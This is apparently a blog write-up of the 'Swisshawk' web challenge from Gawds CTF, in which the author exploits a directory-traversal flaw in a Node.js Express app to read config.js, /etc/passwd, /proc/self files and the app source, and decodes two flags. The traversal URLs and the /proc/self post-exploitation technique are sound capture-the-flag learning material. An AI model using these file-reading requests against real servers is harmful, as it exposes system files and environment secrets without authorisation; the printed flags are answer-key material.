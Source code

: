 ```yaml
---
layout: post
title: Gawds CTF/ Swisshawk 
---
```


## Description

This challenge seemed easy in the beginning. The second part of challenge had me breaking my head, 
it made me learn a new vector in post-exploitation of web apps.

Your friend Tamanna is in danger, swisshawk defaced her website and hidden some flags in there.

Tamanna can only restore the website if she knows the flags, please help tamanna get her website back!

[http://swisshawk.ctf.gawds.in](http://swisshawk.ctf.gawds.in)

* * * 

## The Challenge

The challenge in a sense was quite straight forward. Opening the page greets you with a steady message.

![Challenge](/public/images/startup-swisshack.png) 

As always the entry point being the source, I decided to give it a look.

<pre><p>You will never be able to find the flags, I have very carefully
        hidden it somewhere here &lt;!-- page: /app path: /config.js --&gt;</p></pre>

Looking at the comment it was evident that it was a node.js application.

From the hint, the page was currently in the `app` directory. We have to go to the root directory to access the `config.js` file.

Navigating to the following page:
<pre>http://swisshawk.ctf.gawds.in/../config.js</pre>

<pre><p>module.exports = {
    PORT: process.env.PORT || 3000,
    flag1: 'flag{F1R5T_FL4G_W45NT_THAT_H4RD}',
    flag2: 'you_cant_find_me(I am the server)'
}
<!-- page: /config.js path: /config.js --></p></pre>

<strong>Flag1: flag{F1R5T_FL4G_W45NT_THAT_H4RD} </strong>

## Phase II

Now challenge was finding the second flag. The hint too was very cryptic.
<blockquote>you_cant_find_me(I am the server)</blockquote>


The hint meant flag was present inside the server's directory.

I tried directory traversal. It being a node.js app, I tried various combinations of the entry points like `app.js` `index.js`.

<pre>http://swisshawk.ctf.gawds.in/../index.js
http://swisshawk.ctf.gawds.in/../app.js
http://swisshawk.ctf.gawds.in/app.js
http://swisshawk.ctf.gawds.in/index.js
</pre>

I then tried loading the `/etc/passwd` file.
<pre>http://swisshawk.ctf.gawds.in/../../../../../../../../../../../etc/passwd</pre>

First breakthrough!

<pre>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
u57400:x:57400:57400:,,,:/app:/bin/bash
dyno:x:57400:57400:,,,:/app:/bin/bash
&lt;!-- page: /etc/passwd path: /config.js --&gt;
</pre>

But it still was a dissapointment, I wasn't able to access any of the server files. I went to as far as looking in the `/var/www/` directory.

I came across an article which discussed about post exploitation techniques after a LFI vulnerability. 

One interesting place to look for was the `/proc/` directory. This directory not only contained each process related files as well as file descriptors.

Each process has a directory named by its <strong>process id (pid).</strong>

The shortcut being, it isn't necessary to know the process id to access the directory. The current process directory can be accessed by navigating to the `/proc/self/` directory.

This directory contains four juicy files:

* environ
* cmdline
* maps
* mountinfo

Trying each file: `http://swisshawk.ctf.gawds.in/../../../../../../../proc/self/environ/`
<pre>
SHLVL=1 HOME=/app
PORT=41335PS1=\[\033[01;34m\]\w\[\033[00m\] \[\033[01;32m\]$ \[\033[00m\]
VERSION=v6.12.3
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NPM_VERSION=3PWD=/appDYNO=web.1NODE_CHANNEL_FD=3
&lt;!-- page: /proc/self/environ path: /config.js --&gt;</pre>

Nothing great.

`http://swisshawk.ctf.gawds.in/../../../../../../../proc/self/cmdline/`
<pre>
/usr/bin/nodeyou_cant_find_me.js
&lt;!-- page: /proc/self/cmdline path: /config.js -->
</pre>

We found the entry point of the node.js application. 

<pre>
const express = require("express");
const config = require("../config");
const flag2 = require("../flag2isHere");
const resolve = require("path").resolve;
const fs = require("fs");

const app = express();

app.use((req, res) => {
    const path = req.originalUrl.substring(1).replace('%2f', '/').replace('%2F', '/');

    let text = `You will never be able to find the flags, I have very carefully
        hidden it somewhere here`;
    if(path) {
        try {
            text = fs.readFileSync(path);
        }
        catch(err) {
            text = err;
        }
    }

    text += "&lt;!-- page: " + resolve(path) + " path: /config.js -->";
    return res.end("&lt;p>" + text + "&lt;/p>");
});

app.listen(config.PORT, () => {
    console.log("Wohooo, all set up, listening on ", config.PORT);
})&lt;!-- page: /app/you_cant_find_me.js path: /config.js -->
</pre>

We find that `../flag2isHere` is the js file containing the flag.

Going to `http://swisshawk.ctf.gawds.in/../flag2isHere.js`

<pre>
<p>module.exports = {
    flag: "ZmxhZ3tUSElTX20xR2hUX0g0dkVfQjMzbl9MMVR0TGVfdFIxY2tZfQ=="
}&lt;!-- page: /flag2isHere.js path: /config.js --></p>
</pre>

We get the base-64 encoded string. Decoding it we get the following flag.

<strong>Flag2: flag{THIS_m1GhT_H4vE_B33n_L1TtLe_tR1ckY}</strong>
